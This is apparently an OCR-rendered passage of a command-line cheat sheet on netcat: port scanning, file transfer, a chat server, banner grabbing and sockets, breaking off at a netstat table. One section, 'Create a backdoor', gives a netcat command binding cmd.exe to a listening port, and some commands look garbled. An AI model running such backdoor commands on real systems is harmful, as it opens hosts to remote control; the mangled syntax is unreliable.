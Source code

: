 Option  | Effect
:---    | :---
`-l`    | listening mode

Connect to host on port 80
```
nc example.com 80
```
Scan ports
```
# Scan a single port
nc -v -w 2 z 192.168.56.1 22

# Scan multiple ports
nc -v -w 2 z 192.168.56.1 22 80

# Scan a range of ports
nc -v -w 2 z 192.168.56.1 22-25
```
#### Transfer files between servers
This example uses the `pv` utility to monitor progress.
```
# Run `nc` in listening mode (`-l` option) on port 3000
tar -zcf - debian-10.0.0-amd64-xfce-CD-1.iso | pv | nc -l -p 3000 -q 5

# On the receiving client, to obtain the file:
nc 192.168.1.4 3000 | pv | tar -zxf -
```
#### Create a command-line chat server
```
# Create chat server listening on port 5000
nc -l -vv -p 5000

# Launch a chat session on the other system
nc 192.168.56.1 5000
```
#### Find a service running on port
Obtain port banners (`-n` disables DNS lookup)
```
nc -v -n 192.168.56.110 80
```
#### Create stream sockets
Create and listen on a UNIX-domain stream socket
```
nc -lU /var/tmp/mysocket &
ss -lpn | grep "/var/tmp/"
```
#### Create a backdoor
Netcat needs to listen on a chosen port (here 3001): `-d` disables reading from stdin; `-e` specifies the command to run on the target system
```
nc -L -p 3001 -d -e cmd.exe
```
#### Connect to {port} at {host}
```sh
nc host port
```
#### Netcat command that retrieves a webpage
```sh
nc host port \get
```
### netstat
Option  | POSIX option            | Effect
:---    | :---                    | :---